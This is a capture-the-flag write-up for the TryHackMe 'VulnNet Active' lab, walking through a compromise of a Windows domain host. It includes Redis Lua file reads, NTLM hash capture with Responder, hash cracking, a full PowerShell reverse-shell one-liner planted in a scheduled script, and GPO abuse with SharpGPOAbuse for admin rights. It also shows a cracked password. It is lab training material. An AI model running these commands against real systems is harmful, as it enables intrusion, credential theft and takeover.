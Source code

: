 # 9 - AD - VulnNet Active

Room link --> [https://tryhackme.com/room/vulnnetactive](https://tryhackme.com/room/vulnnetactive)

Nmap Scan returns: `sudo nmap -sSVC -p- -v -Pn -T4 10.10.102.28`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49822/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

### Redis (port 6379)

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# automatic enumeration.
nmap --script redis-info -sV -p 6379 <IP> -Pn
msf> use auxiliary/scanner/redis/redis_server

# mannual enumeration.
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools.
10.10.66.252:6379> INFO # gives some info about the server-client.
10.10.66.252:6379> CONFIG GET * # we got a username here: [104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"]

```
{% endcode %}

So the current user name is `enterprise-security`.

### Exploitation <a href="#exploitation-of-redis" id="exploitation-of-redis"></a>

Going through the HackTricks list, we find an [article](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) that shows how to exploit earlier versions of Redis (our version 2.8.2402 is amongst them):

{% hint style="warning" %}
“Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the dofile() command (WHY???). It can be used to enumerate files and directories. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, the error messages will leak some content of the target file”
{% endhint %}

#### Reading files <a href="#reading-files" id="reading-files"></a>

As explained in the linked article, the command we use is the following:

{% code overflow="wrap" lineNumbers="true" %}
```bash
redis-cli -h 10.10.245.19 eval "dofile('<PATH TO FILE>')" 0
```
{% endcode %}

We try to read some of the [common windows files](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt) that are usually used for Local File Inclusion.

Let's read the "user.txt" file as asked in the question:

{% code overflow="wrap" lineNumbers="true" %}
```bash
10.10.66.252:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
```
{% endcode %}

#### SMB credentials capturing[#](https://blog.raw.pm/en/TryHackMe-VulnNet-Active-write-up/#SMB-credentials-capturing) <a href="#smb-credentials-capturing" id="smb-credentials-capturing"></a>

LUA `dofile()` allows us to request a file but since we are on Windows it allows us to request a share as well for example: `dofile('//host/share')`.

So if we launch a SMB server with Responder on one hand and force the server to request a fake share on the other hand, we should be able to capture a NTLM hash.

#### Step 1

we first set up a listener using `Impacket's Responder.py`.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# listener.
sudo responder -i tun0

# request for a fake share.
redis-cli -h EVAL "dofile('//10.18.88.214/fakeshare')" 0
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

We captured the NTLMv2 hash for "enterprise-security" user account, we can crack it:

Using haiti to detect the hash type:&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` - crackin with hashcat.

`john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt` - cracking with john.

{% hint style="info" %}
sand\_0873959498 <--> enterprise-security
{% endhint %}

We have valid credentials now to enumerate SMB.

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient -L \\\\10.10.117.3\\ -U 'enterprise-security'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

Connecting to the "Enterprise-Share"

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient \\\\10.10.117.3\\Enterprise-Share -U enterprise-security
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>

We viewed the .ps1 script file, and see its a scheduled script.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dkingws)-[~]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```
{% endcode %}

We could replace this with a Powershell Oneliner to get a reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.18.88.214',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we got a shell.

#### Priv Esc

We have "SeImpersonatePrivilege", so we could use Potatoe attack or use BloodHound to find another path.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>6</p></figcaption></figure>

I used Metasploit and got "Nt Authority".

#### 2nd Method for Priv Esc:

After gaining initial access using the Powershell script, we can use "SharpHound.exe" to gather Domain info, then feed the data to BloodHound to give us shortest path to Admin or Domain Admin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
.\SharpHound.exe -c All
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>7</p></figcaption></figure>

&#x20;We can use BloodHound to analyse the found data: Immediately, BloodHound gives us the shortest path from our current user `enterprise-security` to the `Administrator`. Apparently, we do have `GenericWrite` Permissions to one of the `GPO`s - namely `security-pol-vn`.

Copy the .zip file to the Share folder, then download to kali for use in BloodHound.

`powershell cp .\20230907143943_BloodHound.zip C:\Enterprise-Share\20230907143943_BloodHound.zip` .

We can use the [SharpGPOAbuse.exe](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master) binary to exploit the "GenericWrite" permission on that GPO object.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>8</p></figcaption></figure>

We can do a `gpupdate /force` - to force update the settings, then when we do a `net users enterprise-security` - we should be added to the Administrator groups now.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>9</p></figcaption></figure>

Note we are not able to go into the Administrator folder from the shell, but we can access the Administrator folder via the SMB share.

`smbclient \\10.10.92.208\C$ -U enterprise-security` .

DONE !
